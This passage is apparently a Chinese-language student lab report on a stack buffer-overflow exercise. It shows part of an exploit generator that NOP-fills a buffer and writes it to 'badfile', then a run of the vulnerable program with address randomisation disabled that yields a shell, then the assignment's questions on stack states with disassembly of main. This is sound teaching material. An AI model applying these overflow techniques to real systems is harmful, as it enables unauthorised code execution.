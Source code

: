 ```c
//	printf("buffer addr (%p)\n", buffer);
  FILE *badfile;

  /*使用 0x90 初始化缓冲区（NOP 指令）*/
  memset(&buffer, 0x90, BUFFER_SIZE);

  /*您需要在此处使用适当的内容填充缓冲区*/
  fillBuffer(buffer);

  /*将内容保存到文件"badfile"*/
  badfile = fopen("./badfile", "w");
  fwrite(buffer, BUFFER_SIZE, 1, badfile);
  fclose(badfile);
}

```





## 三、运行 stack 读入 shellcode

```bash
setarch i386 -R ./stack
$ who
hxn      tty7         Apr 17 18:30 (:0)
$ id
uid=1000(hxn) gid=1000(hxn) groups=1000(hxn),4(adm),24(cdrom),27(sudo),29(audio),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

可以看出 shellcode 执行成功，我们获取了 shell





## 四、stack.asm 分析与栈溢出攻击的实现

详细分析 stack.asm 中的 main 函数及 bof 函数对应的汇编指令序列，画出
从 main 起始到调用 bof 函数执行、再到返回 main 的过程中关键的栈状态。解释
这些关键的栈状态，说明栈溢出攻击是如何实现的。（需要画出并解释的栈状态
包括但不限于：

- call fread 后，call bof 前，
- bof 内 call strcpy 前，
- bof 内 call strcpy 后，bof 内 ret 前，
- 从 bof 返回 main 后。 
注：要求自己画栈状态，禁止从阅读材料中复制。 

从 main 函数开始：

```asm
08049229 <main>:
 8049229:	f3 0f 1e fb          	endbr32 
 804922d:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8049231:	83 e4 f0             	and    $0xfffffff0,%esp
 8049234:	ff 71 fc             	pushl  -0x4(%ecx)
 8049237:	55                   	push   %ebp
 8049238:	89 e5                	mov    %esp,%ebp
 804923a:	53                   	push   %ebx
 804923b:	51                   	push   %ecx
 804923c:	81 ec 10 02 00 00    	sub    $0x210,%esp
 8049242:	e8 e9 fe ff ff       	call   8049130 <__x86.get_pc_thunk.bx>

 8049247:	81 c3 b9 2d 00 00    	add    $0x2db9,%ebx

# stack.c:23:     badfile = fopen("badfile", "r");
```